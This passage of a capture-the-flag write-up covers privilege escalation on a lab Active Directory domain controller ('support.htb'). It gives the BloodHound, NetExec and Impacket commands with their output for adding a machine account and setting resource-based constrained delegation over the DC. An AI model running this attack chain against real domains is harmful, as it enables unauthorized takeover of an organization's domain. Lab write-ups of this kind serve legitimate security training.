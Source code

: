 # PrivEsc

Executed [bloodhound-python](https://github.com/dirkjanm/BloodHound.py) and analyzed the results.

```bash
bloodhound-python -u support -p <REDACTED> -d support.htb -c all -ns 10.129.230.181
```

The user we compromised is a member of a high privileged group that has GenericAll permissions over the Domain Controller machine account.

<img src="/assets/img/support/Untitled 4.png" alt="Untitled 4.png" style="width:800px;">

Let’s check the machine account quota with NetExec.

```bash
netexec ldap 10.129.230.181 -u support -p <REDACTED> -M MAQ
SMB         10.129.230.181  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
LDAP        10.129.230.181  389    DC               [+] support.htb\support:<REDACTED>
MAQ         10.129.230.181  389    DC               [*] Getting the MachineAccountQuota
MAQ         10.129.230.181  389    DC               MachineAccountQuota: 10
```

MAQ is set to its default, meaning that we can add up to 10 machines to the domain.

```bash
impacket-addcomputer -computer-name dusk$ -computer-pass 'Dusk3d123!' -dc-ip 10.129.230.181 support.htb/support:<REDACTED>
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Successfully added machine account dusk$ with password Dusk3d123!.
```

Once our machine has been created, we can grant it with **msds-allowedtodelegateto** over the DC$ machine account abusing the GenericAll permissions that the support’s user has.

```bash
impacket-rbcd "support.htb/support:<REDACTED>" -delegate-from "dusk$" -delegate-to "DC$" -dc-ip 10.129.230.181 -action write  
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] dusk$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     dusk$        (S-1-5-21-1677581083-3380853377-188903654-6101)
```
